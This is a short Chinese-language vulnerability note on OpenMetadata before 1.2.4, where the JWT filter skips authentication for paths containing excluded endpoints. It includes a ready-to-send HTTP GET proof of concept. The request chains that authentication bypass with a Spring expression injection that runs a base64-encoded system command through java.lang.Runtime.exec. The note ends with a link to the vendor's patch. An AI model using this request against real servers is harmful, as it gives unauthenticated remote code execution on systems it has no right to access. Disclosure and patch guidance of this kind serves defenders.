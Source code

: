 **漏洞介绍**

OpenMetadata是一个统一的发现、可观察和治理平台，由中央元数据存储库、深入的沿袭和无缝团队协作提供支持。

OpenMetadata存在安全漏洞，该漏洞源于当请求的路径包含任何排除的端点时，过滤器将返回而不验证 JWT。

**影响版本**

OpenMetadata==< 1.2.4

**漏洞复现**

1.访问漏洞环境

 **POC （GET）**

```yaml
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22命令进行base64%22))) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Connection: close
Accept-Encoding: gzip, deflate
```

**修复建议**



目前厂商已发布升级补丁以修复漏洞，补丁获取链接：



```
https://github.com/open-metadata/OpenMetadata/releases/tag/1.2.4-release
```